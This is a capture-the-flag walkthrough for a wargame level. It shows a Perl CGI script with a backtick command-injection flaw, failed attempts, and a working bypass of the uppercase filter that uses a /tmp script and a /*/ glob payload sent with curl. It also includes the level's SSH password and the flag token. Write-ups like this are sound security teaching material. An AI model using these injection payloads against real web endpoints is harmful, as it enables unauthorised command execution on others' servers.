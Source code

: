 # Level 12

## Requirements

- None

## Walkthrough

1. Login from the __attacker__'s machine.

	```
	ssh -p 4242 level12@192.168.1.32
	Password: fa6v5ateaw21peobuub8ipe6s
	```

1. Check files.

	```sh
	> ls -l
	total 4
	-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
	```

1. Another PERL script, at first sight, it's very similar to `level04`, let's analyze it.

	```perl
	#!/usr/bin/env perl
	# localhost:4646
	use CGI qw{param};
	print "Content-type: text/html\n\n";

	# Function `t`
	sub t {
		# Alias to second argument
		$nn = $_[1];
		# Alias to first argument
		$xx = $_[0];
		# Replace lowercase by uppercase
		$xx =~ tr/a-z/A-Z/;
		# Erase everything after a whitespace
		# The \s metacharacter matches whitespace character.
		# Whitespace characters can be:
		#  - A space character
		#  - A tab character
		#  - A carriage return character
		#  - A new line character
		#  - A vertical tab character
		#  - A form feed character
		$xx =~ s/\s.*//;
		# Execute a Shell command (egrep) using the formatted first argument as pattern
		# Warning: It is executed using backticks (`) and double-quote ("), so everything will be interpreted as Shell code, not only text!
		# We should be able to inject here
		@output = `egrep "^$xx" /tmp/xd 2>&1`;
		# Loop through `egrep` result, to split each line on ':', changing return value accordingly
		foreach $line (@output) {
			($f, $s) = split(/:/, $line);
			if($s =~ $nn) {
				return 1;
			}
		}
		return 0;
	}

	# Function `n`
	sub n {
		# Just print `..` or `.` depending on the first argument value
		if($_[0] == 1) {
			print("..");
		} else {
			print(".");
		}
	}

	# Call function `n`, with 2 arguments:
	# - t(param("x")) : Result of the call to function `t` with `param("x"), taken from request URL (ex: ..?x=qwe)
	# - param("y") : Taken from request URL (ex: ..?y=asd)
	n(t(param("x"), param("y")));
	```

1. 88 miles/hour Marty ! Let's reuse the same method as in `level04`.

	```sh
	> curl 'localhost:4646?x=$(getflag>/tmp/exploit11)'
	..

	> curl 'localhost:4646?x=$(getflag>/tmp/exploit11)&y=qwe'
	.

	> cat /tmp/exploit11
	cat: /tmp/exploit11: No such file or directory
	```

1. Nevermind, forgot we can't do that, everything is uppercased, so obviously it won't work. Let's try to find a way to reverse the uppercase.

	```sh
	> CMD="GETFLAG";FILE="/TMP/TEST12";${CMD,,}>${FILE,,}

	> cat ${FILE,,}
	Check flag.Here is your token :
	Nope there is no token here for you sorry. Try again :)
	```

1. I am a f*cking GENIUS! Let's inject this, MF!

	```sh
	# -g : We need to disable URL parser because `{` and `}` are not URL safe characters
	> curl -g 'localhost:4646?x=$(CMD="getflag";FILE="/tmp/exploit12";${CMD,,}>${FILE,,})'

	> cat /tmp/exploit12
	cat: /tmp/exploit12: No such file or directory
	```

1. Karma.. Too much confident.. Even if I "force" the use of curly brackets with `curl`, the `server` probably doesn't parse them correctly... We have to find another way.. Let's do a quick recap.

	```
	- Everything has to be uppercase
	- Can't use spaces
	- Limited to URL safe characters
	```

1. Since we can only use uppercase, we can't inject `getflag` directly into the URL, so I guess we need to make a script file first.

	```sh
	> FILE=/tmp/EXPLOIT12; echo -e '#!/usr/bin/env bash'"\n"'getflag > /tmp/flag12' > $FILE; chmod +x $FILE
	```

1. Now, we have to find a way to execute it. We know the path is `/tmp/EXPLOIT12`, so we need to just have to handle the `/tmp` part now. Let's read the bash documentation...

	```
	https://www.gnu.org/software/bash/manual/bash.html#Filename-Expansion

	*

    Matches any string, including the null string. When the globstar shell option is enabled, and ‘*’ is used in a filename expansion context, two adjacent ‘*’s used as a single pattern will match all files and zero or more directories and subdirectories. If followed by a ‘/’, two adjacent ‘*’s will match only directories and subdirectories.
	```

1. Great, I think we are getting closer. Let's try this.

	```sh
	> curl 'localhost:4646?x=$(/*/EXPLOIT12)'
	..
	```

1. Get the flag.

	```sh
	> cat /tmp/flag12
	Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
	```

## Documentation

- Command: [egrep](https://linux.die.net/man/1/egrep)
- Terminal: [Bash](https://www.gnu.org/software/bash/manual/bash.html)
